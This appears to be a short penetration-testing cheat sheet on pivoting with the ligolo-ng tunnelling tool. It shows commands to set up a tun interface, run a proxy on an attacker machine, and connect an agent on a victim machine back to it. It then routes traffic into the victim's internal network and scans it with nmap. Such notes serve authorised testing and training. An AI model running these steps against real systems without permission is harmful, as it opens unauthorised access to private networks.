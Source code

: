 # Pivoting

### Download link for ligolo-ng<br/>
Link: https://github.com/nicocha30/ligolo-ng<br/>

### Creating Interface
```
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

### PROXY - server needs to be run on attacker machine 
#### start the server
```sudo ./proxy -laddr 0.0.0.0:<port> -selfcert```

### Agent - agent needs to be run on victim machine
#### connect the agent to server
##### windows agent
```agent.exe -connect <LHOST>:lport -ignore-cert```
##### linux agent
```./agent -connect <LHOST>:lport -ignore-cert```

### List the sessions
```ligolo-ng » session ``` #list session<br/>
```[Agent : client@client-virtual-machine] » ifconfig``` #check different network interfaces that victim connected
```You will receive result something like below
   ┌───────────────────────────────────────────────┐
   │ Interface 4                                   │
   ├──────────────┬────────────────────────────────┤
   │ Name         │ ens37                          │
   │ Hardware MAC │ 00:0c:29:45:60:ff              │
   │ MTU          │ 1500                           │
   │ Flags        │ up|broadcast|multicast|running │
   │ IPv4 Address │ 10.10.10.148/24                │
   │ IPv6 Address │ fe80::f04d:685d:278c:9642/64   │
   └──────────────┴────────────────────────────────┘
```

### Now to pivot to above example network run
```sudo ip route add ip/24 dev ligolo``` #ip here with above example 10.10.10.148/24

### Finally start the tunnel
```[Agent : client@client-virtual-machine] » tunnel_start```

### Now you can access all the machines inside the above example network 10.10.10.148/24
```sudo nmap 10.10.10.0/24```
